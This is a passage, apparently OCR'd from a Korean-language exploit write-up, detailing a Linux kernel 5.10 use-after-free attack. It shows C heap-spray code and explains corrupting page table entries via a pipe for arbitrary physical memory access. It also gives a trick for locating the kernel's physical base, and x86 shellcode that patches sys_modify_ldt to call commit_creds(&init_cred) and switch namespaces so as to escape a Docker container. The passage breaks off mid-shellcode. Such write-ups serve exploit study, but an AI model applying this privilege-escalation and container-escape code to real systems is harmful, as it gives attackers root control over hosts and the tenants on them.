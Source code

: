 ```c
}
for (int i = 0; i < FILE_SPRAY_COUNT; ++i) {
  close(file_fds[i]);
}
for (int i = 0; i < MMAP_SPRAY_COUNT; ++i) {
  for (int j = 0; j < MMAP_SPRAT_SIZE / MMAP_PAGE_SIZE; ++j) {
    uint64_t *addr = (uint64_t *)(mmap_addrs[i] + MMAP_PAGE_SIZE * j);
    const uint64_t val = ((uint64_t)i << 32) + j * 0x01010101;
    *addr = val;
  }
}
```

어쨋든 UAF 페이지에 PTE를 할당했으므로 열어뒀던 pipe를 통해 PTE를 변조할 수 있다.

#### 커널의 물리 base 주소를 알아내자

각각의 PTE는 flags와 PFN(Page Frame Number; 얘는 그냥 `<물리 주소> >> 12`와 같다)를 가지고 있다.
그러면 pipe를 통해 PTE의 flags와 PFN를 조작하면 `mmap`으로 할당 받은 주소를 통해 임의의 물리 주소에 읽기 및 쓰기를 할 수 있다.

그러면... 커널의 코드 영역을 잘 패치해서 도커를 탈출할 수 있다. 근데 문제는 커널의 코드 영역을 패치하려면 커널이 어느 물리 주소에 위치하는지 알아야한다. 리눅스 커널은 시작할 때 마다 커널을 다른 물리 주소에 위치시킨다.
그래도 알아낼 수 있는 방법이 있는데, `PA:0x9c000`에 위치하는 dmabuf를 이용하면 된다고 한다 (이유도 모르겠고 저게 뭔지도 모르겠다..).
어쨋든 저 주소를 잘 읽어서 `*( *(uint64_t*)(PA:0x9c000)&(~0xfff) - 0x2004000ULL)`를 계산하면 이게 커널의 물리 base 주소이다.

참고. KASLR이 비활성화되어 있으면 `*( *(uint64_t*)(PA:0x9c000)&(~0xfff) - 0x2001000ULL)`처럼 계산해야 한다.

#### [sys_modify_ldt](https://elixir.bootlin.com/linux/v5.10.127/source/arch/x86/kernel/ldt.c#L659)를 수정하자

이제 커널의 코드 영역을 읽고 쓸 수 있으므로 `modify_ldt`를 변조해서 LPE를 하고 도커를 탈출하기로 했다.
`modify_ldt`는 다음과 같이 수정했다.

```nasm
// Compiled using https://defuse.ca/online-x86-assembler.htm
// We need `endbr64` if CFI is enabled (check out https://en.wikipedia.org/wiki/Control-flow_integrity and https://en.wikipedia.org/wiki/Indirect_branch_tracking)
call get_rip;
get_rip:
  pop r15;
  sub r15, 0x252f0; // &__x64_sys_modify_ldt - kbase == 0x252f0
  sub r15, 5; // call get_rip; takes 5 bytes

  // call commit_creds(&init_cred);
  lea rdi, [r15 + 0x145a960]; // &init_cred - kbase == 0x145a960
  lea rax, [r15 + 0xeba40]; // &commit_creds - kbase == 0xeba40
  call rax;

  // task = find_task_by_vpid(1);
  // call switch_task_namespaces(task, &init_nsproxy);
  mov rdi, 1;
  lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
  call rax; // find_task_by_vpid(1)
  mov rdi, rax; // task
  lea rsi, [r15 + 0x145a720]; // &init_nsproxy - kbase == 0x145a720
  lea rax, [r15 + 0xea4e0]; // &switch_task_namespaces - kbase == 0xea4e0
  call rax; // switch_task_namespaces(task, &init_nsproxy);

  // current = find_task_by_vpid(pid);
  // current->fs = copy_fs_struct(&init_fs);
  lea rdi, [r15 + 0x1589740]; // &init_fs - kbase == 0x1589740
  lea rax, [r15 + 0x2e7350]; // &copy_fs_struct - kbase == 0x2e7350
  call rax; // copy_fs_struct(&init_fs);
  mov rbx, rax; // new_fs
  mov rdi, 0x1111111111111111; // pid: will be fiexed
  lea rax, [r15 + 0xe4fc0]; // &find_task_by_vpid - kbase == 0xe4fc0
```
